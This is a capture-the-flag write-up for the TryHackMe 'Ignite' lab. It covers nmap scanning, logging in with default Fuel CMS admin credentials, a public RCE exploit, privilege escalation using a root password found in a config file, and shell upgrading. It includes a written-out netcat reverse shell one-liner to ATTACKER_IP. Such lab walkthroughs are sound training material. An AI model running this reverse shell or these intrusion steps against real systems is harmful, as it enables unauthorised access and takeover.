|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |   Easy     |  |  10.10.162.4  |  | [Ignite](https://tryhackme.com/room/ignite) |  |

### [ User.txt ]

To start off, let's run a basic `nmap` scan (top 1000 common ports) on the machine:

```
sudo nmap -sC -sV -vv 10.10.162.4
```



From the results, we can see that only port **80** is open, serving Apache httpd 2.4.18. An interesting thing to note is that there is a disallowed entry '/fuel/' in the robots.txt file.

Navigating to the HTTP website, we see a Fuel CMS webpage:



I first looked at the source code of the site, but there weren't any useful comments or information that were left behind by the developer. 

Next, I noticed something interesting at the bottom of the page:



It seems that the default admin credentials for Fuel CMS is:

> admin : admin

Furthermore, the admin page for Fuel CMS can be found in /fuel. Visiting /fuel brings us to a login page:



I tried using the default credentials (admin:admin) and was able to log in! We are then brought to an administrative dashboard:



Clicking on 'Click here for your site documentation', we can see that the site is running FUEL CMS **1.4**:



With the knowledge of the version number, let's try searching for an exploit using `searchsploit`:

```
searchsploit fuel 1.4
```



The second exploit provides a Python script that allows us to gain remote code execution (RCE) on the machine. Let's use it!

**Exploit:**



Let's modify the exploit so that it will work for us.

Seems like we just have to change the `url` to the victim's IP address. Also note that the code runs the connection through Burp Proxy, which we will remove as we are not using that. Finally, to allow for compatibility with Python3, I had to make the following changes:

* `raw_input()` to `input()`

* `quote()` to `urllib.parse.quote()` (make sure to import urllib.parse)

* `print r.text[0:dup]` to `print(r.text[0:dup])`

The modified exploit script looks like this:



Running the exploit, it prompts us to run a command on the target machine. Let's try a simple `whoami` command:



Nice, it works! We've achieved RCE on our target.

Now, we'll try setting up a reverse shell. Using pentestmonkey's [reverse shell cheatsheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), I found one that worked:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

Running this command using the exploit allowed us to gain access into our target machine:



Now that we're in, we can obtain **user.txt** from www-data's home directory.

---

### [ Root.txt ]

To enumerate any potential privesc vectors, we'll use [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), a privilege escalation automation script. This will help speed up the enumeration process. 

Looking through linpeas' results, we come across an interesting configuration file: **/var/www/html/fuel/modules/views/settings.php**:


Exploring this file yielded nothing of interest. However, I decided to look around its neighbouring directories and files. 
After searching for a long time, I finally found a file called **database.php**, located in **/var/www/html/fuel/application/config/**, that had the root password inside:



The root password is:

> mememe

With the root password, we can then log in as root and obtain **root.txt** located in /root.

---

### [ Extra: Interactive Shells ]

When I was trying to log in using `su root`, an error "must be run from a terminal" kept popping up, disallowing me from logging in. Doing some research, this seems to be because the shell spawned from our reverse shell code is a **non-interactive** shell, and not a fully-interactive TTY shell.

In order to upgrade the shell, we can use Python:



This command upgrades our shell to a more functional one that is similar to our terminal on our local machine. We can then `su` into the root account:


